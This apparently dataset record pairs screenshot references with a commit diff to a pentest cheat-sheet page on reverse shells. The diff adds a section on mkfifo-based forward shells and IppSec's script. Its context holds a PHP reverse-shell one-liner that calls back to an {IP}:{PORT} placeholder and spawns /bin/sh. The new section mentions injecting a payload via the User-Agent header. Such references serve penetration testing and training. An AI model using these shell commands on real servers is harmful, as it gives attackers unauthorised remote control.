

Before and after one commit to vincd/security-tips, an MkDocs documentation site: the page built from docs/reverse-shell.md, in a window 1280 px wide and 900 px high, scrolled down 1645 px. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add forward-shell from IppSec

````diff
--- a/docs/reverse-shell.md
+++ b/docs/reverse-shell.md
@@ -69,3 +69,16 @@ This payload can also work with `BeanShell` scripts.
 ```bash
 php -r '\$sock=fsockopen(\"{IP}\",{PORT});exec(\"/bin/sh -i <&3 >&3 2>&3\");'
 ```
+
+
+## Forward shell
+
+If the remote server cannot contact your local machine, it's still possible to
+use a shell that accept commands from named pipes using `mkfifo` and send the
+output to a file.
+
+IppSec has a repository on Github with a simple but effective script to demonstrate
+the technique on a vulnerable web server: [`forward-shell`](https://github.com/IppSec/forward-shell).
+You need to set the vulnerable url (`self.url = r"http://'...`) and the exploit
+arguments (`headers = {'User-Agent': payload}`). Remember that you can use the same
+technique on other services that allow you to inject commands.
````
